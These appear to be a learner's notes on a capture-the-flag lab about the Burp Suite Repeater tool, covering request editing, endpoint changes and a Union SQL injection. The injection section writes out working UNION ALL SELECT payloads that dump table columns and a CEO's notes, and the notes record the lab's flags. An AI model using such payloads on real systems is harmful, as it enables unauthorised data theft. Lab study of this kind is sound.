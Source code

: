 #BurpSuite 

You will learn how to manipulate and resend captured requests, and we will explore the various options and functionalities available in this exceptional module.

Burp Suite Repeater enables us to modify and resend intercepted requests to a target of our choosing

The ability to edit and resend requests multiple times makes Repeater invaluable for manual exploration and testing of endpoints.

`CTRL + R` shortcut 

right click on captured packet > send to Repeater > Send > loads Response
- now can edit the response

```
REQUEST
GET / HTTP/1.1
Host: x.x.x.x
User-Agent: 
...
Connection: close      ~~ change to open > Send 

------------
RESPONSE
HTTP/ 1.1 200 OK
...
Connection: keep-alive

```


Message Analysis toolbar
- pretty (default) 
- raw raw response from server (no formatting)
- hex = byte level representation , useful for binary files
- render = visualize the page as if in browser 

Inspector 
- the box on right side of Repeater

---

`10.10.125.187`
`http://10.10.125.187` 
capture request in Proxy > send to Repeater
Send 1x from Repeater > see the HTML code 

using Inspector or manually ass a header `FlagAuthorised: True` 
- ` THM{Yzg2MWI2ZDhlYzdlNGFiZTUzZTIzMzVi} `

---

disable proxy
go to ` http://10.10.125.187/products/  `
click on See More
endpoint is `/products/3`

turn on proxy intercept and iterate the endpoint numbers
`/products/-1`  is extreme since iterating to 100 = 404 error
- ` THM{N2MzMzFhMTA1MmZiYjA2YWQ4M2ZmMzhl} `

---

#### Challenge Objective

Your objective in this challenge is to identify and exploit a Union SQL Injection vulnerability present in the ID parameter of the `/about/ID` endpoint. By leveraging this vulnerability, your task is to launch an attack to retrieve the notes about the CEO stored in the database.

`http://10.10.129.249/about/2`
captured > Repeater > Send > Response

```
REQUEST
GET /about/2 HTTP/1.1
Host: 10.10.129.249
...

```

Now test if vulnerability exists
- `GET /about/2' HTTP/1.1`  and send = 500 internal server error
- look at Response window, line 40 `Invalid statement`
```
<code>
  Invalid statement: 
  <code>
  SELECT firstName, lastName, pfpLink, role, bio 
  FROM people 
  WHERE id = 2'
  </code>
</code>
```

this is helpful error message that the server should not be sending 
- DB table we are selecting  `FROM people`  
- the query has 5 columns `firstName, lastName, pfpLink, role, bio`
- we can use a UNION call 
- `/about/0 UNION ALL SELECT column_name,null,null,null,null FROM information_schema.columns WHERE table_name="people" `
- this changes the id to 0, creates a union query , 4 null columns to avoid errors

```
GET /about/0 UNION ALL SELECT group_concat(column_name),null,null,null,null FROM information_schema.columns WHERE table_name="people" HTTP/1.1
```

this returns `About | id,firstname,lastname,pfpLink,role,shortRole,bio,notes None`

we want the `notes` column
- name of table `people`
- name of target column `notes`
- ID of CEO is `1`  (found by Jameson Wolfe's profile on /about/ page checking ID in url)

```
GET /about/0 UNION ALL SELECT notes,null,null,null,null FROM people WHERE id=1 HTTP/1.1
```

this Response returns the flag
- ` THM{ZGE3OTUyZGMyMzkwNjJmZjg3Mzk1NjJh} `






